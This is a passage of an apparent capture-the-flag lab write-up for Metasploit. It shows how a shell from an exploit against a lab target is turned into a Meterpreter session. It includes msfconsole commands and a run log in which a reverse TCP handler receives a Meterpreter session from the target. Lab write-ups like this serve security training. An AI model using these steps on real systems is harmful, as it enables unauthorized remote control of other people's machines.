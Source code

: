 `RHOSTS`

4. Run the exploit!

`No answer needed`

5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

`No answer needed`

## [Task 3] Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

`post/multi/manage/shell_to_meterpreter`

2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

```
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```

`SESSION`

3. Set the required option, you may need to list all of the sessions to find your target here.

```
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

`No answer needed`

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

```
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.106.222:4433
[*] Post module execution completed
[*] Sending stage (176195 bytes) to 10.10.166.97
[*] Meterpreter session 2 opened (10.8.106.222:4433 -> 10.10.166.97:49303) at 2020-09-14 17:41:50 -0400
[*] Stopping exploit/multi/handler
```
